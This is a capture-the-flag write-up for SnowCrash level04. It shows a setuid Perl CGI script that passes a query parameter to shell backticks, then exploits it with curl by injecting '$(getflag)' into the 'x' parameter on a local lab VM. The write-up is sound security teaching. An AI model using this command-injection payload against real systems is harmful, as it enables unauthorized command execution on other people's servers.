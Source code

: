 ## 1. Connect to level04:

```bash
level03@SnowCrash:~$ su level04
password: *use previously found flag*
```

## 2. See existing files:

```bash
level04@SnowCrash:~$ ls -l
    total 4
	-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

level04@SnowCrash:~$ cat level04.pl
```

The function `x` executes the shell command provided in `$y` using backticks.
This means that a malicious command can be injected through the `x` parameter.

The script does not filter or validate the command being executed. This creates an opportunity for **command injection**.

## 3. Check if server 4747 is running

```bash
curl 192.168.56.102:4747
```
An empty line is returned, which means that it is active.

## 4. Inject your command

### Example
```bash
curl 192.168.56.102:4747?x=ls
```

### It will return `ls` because function `x` prints what we give as a parameter. Therefore, inject command `getflag` to get the flag
```bash
curl '192.168.56.102:4747?x=$(getflag)'
```